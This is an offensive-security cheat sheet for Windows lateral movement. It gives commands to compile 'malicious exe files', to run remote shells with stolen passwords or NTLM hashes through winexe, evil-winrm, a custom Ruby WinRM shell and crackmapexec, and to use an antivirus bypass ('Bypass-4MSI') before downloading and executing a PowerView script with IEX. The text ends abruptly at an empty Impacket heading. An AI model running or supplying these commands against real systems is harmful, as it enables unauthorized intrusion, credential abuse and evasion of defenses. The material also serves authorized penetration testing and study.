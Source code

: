 Write and compile malicious exe files.
For 32bit environment:
```
sudo i686-w64-mingw32-gcc exploit.c -o exploit32.exe
```
For 64bit environment:
```
sudo x86_64-w64-mingw32-gcc exploit.c -o exploit64.exe
```
# Using credentials 

## Winexe
```
winexe -U DOMAIN/username%password //10.10.10.10 cmd.exe
```
## WinRM
Using public ruby script:
```
ruby evil-winrm.rb -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'
ruby evil-winrm.rb -i 10.0.0.20 -u username -H BD1C6503987F8FF006296118F359FA79
ruby evil-winrm.rb -i 10.0.0.20 -u username -p password -r domain.local
```
or using a custom ruby code to interact with the WinRM service:
```
require 'winrm'

conn = WinRM::Connection.new( 
  endpoint: 'http://ip:5985/wsman',
  user: 'domain/user',
  password: 'password',
)

command=""
conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```
### Download file (Bypass AV)
```
*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > IEX([Net.Webclient]::new().DownloadString("http://127.0.0.1/PowerView.ps1"))
```
## Crackmapexec
```
cme smb 1.1.1.1 -u Administrator -H ":5858d47a41e40b40f294b" -x 'whoami' # cmd
cme smb 0.0.0.0 -u Administrator -H ":5858d47a41e40b40f294b" -X 'whoami' # powershell
cme smb 1.1.1.1 -u Administrator -H ":5858d47a41e40b40f294b" --exec-method atexec -x 'whoami'
cme smb 1.1.1.1 -u Administrator -H ":5858d47a41e40b40f294b" --exec-method wmiexec -x 'whoami'
cme smb 1.1.1.1 -u Administrator -H ":5858d47a41e40b40f294b" --exec-method smbexec -x 'whoami'
```
## Impacket

[DC01]: PS>